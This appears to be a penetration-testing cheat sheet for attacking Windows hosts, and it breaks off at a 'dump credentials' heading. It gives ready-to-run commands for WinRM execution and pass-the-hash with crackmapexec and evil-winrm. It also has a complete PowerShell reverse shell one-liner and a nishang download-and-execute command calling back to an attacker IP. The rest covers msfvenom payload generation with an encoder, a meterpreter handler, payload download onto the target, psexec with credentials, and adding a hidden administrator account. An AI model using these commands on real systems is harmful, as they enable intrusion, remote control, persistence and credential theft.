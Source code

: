 # Tools
## crackmapexec
- command execution over winrm
```bash
crackmapexec winrm -u user -p password -x whoami $ip
```

## evil-winrm
- open winrm session with password
```bash
evil-winrm -i $ip -u user -p password
```
- open winrm session with ntlm hash (pass the hash)
```bash
evil-winrm -i $ip -u user -H hash
```

# Reverse shell
- Powershell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```
## Metasploit
- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python3 -m http.server 8000
```

- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

- Reverse/Privilege Escalation with credentials
```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/user:password@0.0.0.0 cmd.exe
```

- Migrate meterpreter's process
```
use post/windows/manage/migrate
```

# post exploitation consolidation
## create admin user
```
net user h3xit p@ssw0rd /add
net localgroup administrators h3xit /add
net localgroup "remote management users" h3xit /add
```

# tools
## evil-winrm
### dump credentials